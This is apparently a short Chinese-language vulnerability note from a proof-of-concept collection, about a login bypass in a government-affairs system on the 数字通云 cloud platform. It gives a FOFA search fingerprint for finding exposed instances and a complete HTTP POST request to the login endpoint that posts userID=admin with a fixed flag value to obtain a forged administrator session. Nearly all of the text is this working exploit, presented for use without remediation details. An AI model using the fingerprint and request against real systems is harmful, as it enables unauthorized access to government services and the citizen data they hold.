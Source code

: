 # 数字通云平台的智慧政务系统存在登录绕过漏洞

数字通云平台的智慧政务系统存在登录绕过漏洞，login接口中存在未授权访问默认cookie的风险，未经身份验证的远程攻击者可利用此漏洞伪造Cookie登录 

## fofa

```java
body="assets/8cca19ff/css/bootstrap-yii.css"
```

## poc

```javascript
POST /portal/default/login HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0

userID=admin&flag=rone
```

